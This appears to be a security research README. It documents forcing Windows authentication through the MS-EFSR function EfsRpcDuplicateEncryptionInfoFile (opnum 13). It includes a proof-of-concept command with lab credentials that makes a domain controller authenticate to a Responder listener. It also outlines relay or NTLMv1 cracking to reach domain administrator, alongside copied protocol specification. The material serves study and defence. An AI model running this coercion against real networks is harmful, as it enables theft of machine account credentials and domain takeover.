


# MS-EFSR - Remote call to EfsRpcDuplicateEncryptionInfoFile (opnum 13)

## Summary

+ **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

+ **Function name**: [`EfsRpcDuplicateEncryptionInfoFile`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/b39ec3e2-d3f0-4934-925e-74032365f9d2)

+ **Function operation number**: `13`

+ **RPC Interfaces**:
  + Interface 1:
    + uuid=`c681d488-d850-11d0-8c52-00c04fd90f7e`
    + version=`1.0`
    + Accessible through:
      + SMB named pipe: `\PIPE\lsarpc`
      + SMB named pipe: `\PIPE\lsass`
      + SMB named pipe: `\PIPE\netlogon`
      + SMB named pipe: `\PIPE\samr`
  + Interface 2:
    + uuid=`df1941c5-fe89-4e79-bf10-463657acf44d`
    + version=`1.0`
    + Accessible through:
      + SMB named pipe: `\PIPE\efsrpc`

## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\efsrpc` and bind to the desired [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol (with uuid `c681d488-d850-11d0-8c52-00c04fd90f7e` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\pipe\efsrpc` This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. We will then call the remote [`EfsRpcDuplicateEncryptionInfoFile`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/b39ec3e2-d3f0-4934-925e-74032365f9d2) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcDuplicateEncryptionInfoFile('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```



This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:



After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

## Function technical detail

```cpp
DWORD EfsRpcDuplicateEncryptionInfoFile(
   [in] handle_t binding_h,
   [in, string] wchar_t* SrcFileName,
   [in, string] wchar_t* DestFileName,
   [in] DWORD dwCreationDisposition,
   [in] DWORD dwAttributes,
   [in, unique] EFS_RPC_BLOB* RelativeSD,
   [in] BOOL bInheritHandle
 );
```

+ **binding_h**: This is an RPC binding handle parameter, as specified in [C706] and [MS-RPCE] section 2.

+ **SrcFileName**:  An EFSRPC identifier, as specified in section 2.2.1.

+ **DestFileName**: An EFSRPC identifier, as specified in section 2.2.1.

+ **dwCreationDisposition**: This parameter specifies what action the server is advised to take if the object referred to by DestFileName does not already exist. It MUST be one of the following values.

| Name            | Value        | Description |
|-----------------|--------------|-------------|
| `CREATE_NEW`    | `0x00000001` | Do not overwrite the data object referred to by DestFileName if it already exists. |
| `CREATE_ALWAYS` | `0x00000002` | Overwrite the data object referred to by DestFileName if it already exists. |

+ **dwAttributes**: Desired attributes for the target object. Clients SHOULD set this parameter to the bitwise OR of zero or more of the following values. Servers SHOULD support all of these values. These values can be interpreted by the underlying server data store, and they do not affect protocol behavior.

| Name            | Value        | Description |
|-----------------|--------------|-------------|
| `FILE_ATTRIBUTE_HIDDEN` | `0x00000002` | The file is hidden (not displayed in normal folder listings). |
| `FILE_ATTRIBUTE_ARCHIVE` | `0x00000020` | This attribute is used by applications to mark files for backup or removal. |
| `FILE_ATTRIBUTE_TEMPORARY` | `0x00000100` | The file is being used for temporary storage. |
| `FILE_ATTRIBUTE_NOT_CONTENT_INDEXED` | `0x00002000` | The file's contents are not to be indexed by the content indexing service. |
| `FILE_ATTRIBUTE_NORMAL` | `0x00000080` | No other attributes are to be set. |

+ **RelativeSD**: Relative security descriptor for the target object. The format of this is implementation-dependent.

+ **bInheritHandle**: This parameter SHOULD be set to FALSE by the client and SHOULD be ignored by the server.

+ **Return Values**: The server MUST return 0 if it successfully processes the message received from the client. The server MUST return a nonzero value if processing fails.

## References

+ Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: [https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

+ Documentation of function `EfsRpcDuplicateEncryptionInfoFile`: [https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/b39ec3e2-d3f0-4934-925e-74032365f9d2](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/b39ec3e2-d3f0-4934-925e-74032365f9d2)
